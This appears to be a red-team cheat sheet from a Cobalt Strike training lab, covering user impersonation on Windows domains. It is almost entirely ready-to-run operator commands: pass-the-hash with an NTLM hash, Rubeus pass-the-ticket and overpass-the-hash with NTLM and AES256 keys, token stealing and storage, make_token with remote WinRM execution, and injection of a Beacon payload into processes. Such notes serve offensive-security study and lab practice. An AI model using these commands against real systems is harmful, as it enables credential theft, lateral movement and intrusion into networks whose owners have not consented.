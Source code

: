 # User Impersonation

## Pass The Hash

drop impersonation with rev2self

```
getuid
pth DOMAIN\User 59fc0f884922b4ce376051134c71e22c
rev2self
```

## Pass The Ticket

Create this then steal the token

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP
steal_token <PID>
```

## Overpass the hash

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```

## Token Impersonation

```
steal_token <PID>
```

## Token Store

Stealing tokens for future use
```
token-store steal <PID>
token-store show
token-store use <id>
token-store remove <id>
token-store remove-all
```


## Make Token

The make_token command allows you to impersonate a user if you know their plaintext password. The logon session created with LogonUserA has the same local identifier as the caller but the alternate credentials are used when accessing a remote resource.

```
make_token DOMAIN\User <pass>
remote-exec winrm web.dev.cyberbotic.io whoami
```

## Process Injection

shinject allows you to inject any arbitrary shellcode from a binary file on your attacking machine; and inject will inject a full Beacon payload for the specified listener.
```
inject <PID> x64 tcp-local
```
